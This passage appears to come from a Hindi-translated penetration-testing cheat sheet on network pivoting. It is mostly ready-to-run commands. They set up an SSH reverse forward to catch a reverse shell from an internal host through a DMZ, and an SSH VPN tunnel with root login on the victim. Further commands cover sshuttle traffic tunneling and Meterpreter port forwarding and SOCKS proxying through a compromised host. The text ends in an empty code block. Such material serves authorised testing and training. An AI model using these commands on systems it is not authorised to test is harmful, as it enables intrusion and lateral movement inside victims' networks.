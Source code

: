 यह आंतरिक होस्ट से DMZ के माध्यम से आपके होस्ट पर रिवर्स शेल प्राप्त करने के लिए उपयोगी है:
```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and capture it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
### VPN-Tunnel

आपको **दोनों उपकरणों में रूट की आवश्यकता है** (क्योंकि आप नए इंटरफेस बनाने जा रहे हैं) और sshd कॉन्फ़िगरेशन को रूट लॉगिन की अनुमति देनी चाहिए:\
`PermitRootLogin yes`\
`PermitTunnel yes`
```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```
सर्वर पक्ष पर फॉरवर्डिंग सक्षम करें
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```
क्लाइंट साइड पर एक नया रूट सेट करें
```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
## SSHUTTLE

आप **ssh** के माध्यम से सभी **traffic** को एक **subnetwork** के माध्यम से एक होस्ट पर **tunnel** कर सकते हैं।\
उदाहरण के लिए, 10.10.10.0/24 पर जाने वाले सभी traffic को अग्रेषित करना
```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```
निजी कुंजी के साथ कनेक्ट करें
```bash
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa'
# -D : Daemon mode
```
## Meterpreter

### Port2Port

स्थानीय पोर्ट --> समझौता किया गया होस्ट (सक्रिय सत्र) --> तीसरा\_बॉक्स:पोर्ट
```bash
# Inside a meterpreter session
portfwd add -l <attacker_port> -p <Remote_port> -r <Remote_host>
```
### SOCKS
```bash
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
एक और तरीका:
```bash
```
